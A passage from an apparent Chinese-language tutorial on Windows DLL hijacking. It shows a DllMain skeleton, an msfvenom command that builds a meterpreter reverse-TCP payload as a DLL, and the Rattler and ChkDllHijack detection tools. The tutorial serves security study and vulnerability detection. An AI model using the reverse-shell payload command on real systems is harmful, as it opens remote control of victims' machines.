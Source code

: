 |     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```c\+\+<br>BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){<br>  printf("hModule.%p lpReserved.%p \n", hModule, lpReserved);<br>  switch (ul_reason_for_call)<br>  {<br>    case DLL_PROCESS_ATTACH:<br>      printf("Process attach. \n");<br>      break;<br>    case DLL_PROCESS_DETACH:<br>    	printf("Process detach. \n");<br>    	break;<br>    case DLL_THREAD_ATTACH:<br>    	printf("Thread attach. \n");<br>    	break;<br>    case DLL_THREAD_DETACH:<br>    	printf("Thread detach. \n");<br>    	break;<br>    }<br>return (TRUE);<br>}<br>``` |

如果应用程序调用的 DLL 没有 DLLMain 函数就需要实现指定导出函数，然后等待导出函数执行完毕再 Load 真实 DLL。

#### [](#622-msf)6.2.2 msf

MSF 生成 payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f dll > a.dll<br>``` |

### [](#63-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7%E6%A3%80%E6%B5%8B)6.3 自动化工具检测

#### [](#631-rattler)6.3.1 rattler

[https://github.com/sensepost/rattler](https://github.com/sensepost/rattler)

实现思路：

-   枚举进程调用的 dll 列表，解析出 dll 的名称
-   将测试 dll 分别重命名为列表中的 dll 名称
-   再次启动程序，检测是否成功创建进程 calc.exe，如果成功，代表存在漏洞，否则不存在

测试：

使用 Visual Studio 编译 Rattler，将 payload.dll 放于同级目录下

payload.dll 下载地址：

[https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll](https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll)

管理员权限的 cmd 下运行命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>Rattler.exe [待检测程序名称] 1<br>``` |

#### [](#632-chkdllhijack)6.3.2 ChkDllHijack

使用 windbg 导出 module：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20190102103743.png-water_print](assets/1699411459-e67f446e782e072a32b15f34d26eb0ed.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20190102103743.png-water_print")
